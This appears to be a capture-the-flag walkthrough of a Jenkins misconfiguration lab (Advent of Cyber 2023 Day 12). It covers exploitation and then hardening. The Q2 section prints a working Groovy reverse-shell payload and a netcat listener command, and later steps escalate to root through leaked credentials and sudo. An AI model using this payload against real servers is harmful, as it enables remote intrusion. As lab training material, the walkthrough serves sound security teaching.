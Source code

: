 # Sleighing Threats, One Layer at a Time | Advent of Cyber 2023 | Day 12

## TL;DR of Day 12

Miconfiguration of the systems can lead to the disastrous results. You should never provide more authorization to someone than they need. Never allow users to access the resources they are not supposed to access. Always use the authentication and authorization methods rather than trusting the access.


## walkthrough

Start the machine and wait for 3-5 minutes to get it set up. Then we need to ssh as admin user using `SuperStrongPassword123` password. We will be using this session to patch the misconfigurations of the system.


### Q1: What is the default port for Jenkins?

This is general knowledge question. You can google search for this. When you get answer also visit the same from the machine IP. You should see the Jenkins interface.

### Q2: What is the password of the user tracy?

We have access to the Jenkins interface. We can always check the `script console`. You will find it inside the `Manage Jenkins`. Gotcha. It is available. It accepts the groovy script. We can levarage it to gain the reverse shell. Start netcat listner on the port 6996 using `nc -lnvp 6996` Use the following snippet to gain the reverse shell on the system:

```
String host="attacking machine IP here";
int port=6996;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Don't forgot to add your IP address. You should receive the dumb shell on your netcat listner. If you check the user using the whoami command then you should see that we have shell as the jenkins users.

> Note: We are in the same machine as the admin user. We are just going from the attacker's perspective.

Now let't check the machine around. You should see one backup script in the /opt/scripts containing the username and password for tracy. Password is our answer. We can also use them to ssh as a tracy user.

### Q3: What's the root flag?

Since we are talking about the root flag, then we will need root permission to access it. Let's check the sudo -l for tracy user. Enter the password and we will see that we can run ALL commands as root user for tracy user. Let's sudo su and gain the root user shell. We should get the the flag at the /root directory.


### Q4: What is the error message when you login as tracy again and try sudo -l after its removal from the sudoers group?

We should not allow low level users to run sudo. Let's remove the tracy from sudo group. We can use `sudo deluser tracy sudo` command from the admin panel. Now exit the tracy's ssh session and ssh again. Now if you try to run sudo -l, you will see that it is not allowed. You will be prompted with message starting with `Sorry`.


### Q5: What's the SSH flag?

We should also not allow password based access for ssh. Let's disable it in the ssh config. Edit the `/etc/ssh/sshd_config` to set the `PasswordAuthentication no`. Also comment the Include line on the top. When you configure the `PasswordAuthentication` check the line below it. You will have your flag over there.


### Q6: What is the Jenkins flag?

We should also not allow the script console from jenkins in the first place. Let's reconfigure it. Go to /var/lib/jenkins and check the config.xml.bak file which contains commented out snippet for the disbaling Anonymous read access. Uncomment it and restore the original config.xml file with config.xml.bak and that should restrict the script console access. For the flag it should be around the commented code bloack in the .bak file.


That should be all for today. See you tommorow with some more exciting learning and techniques. Keep hacking.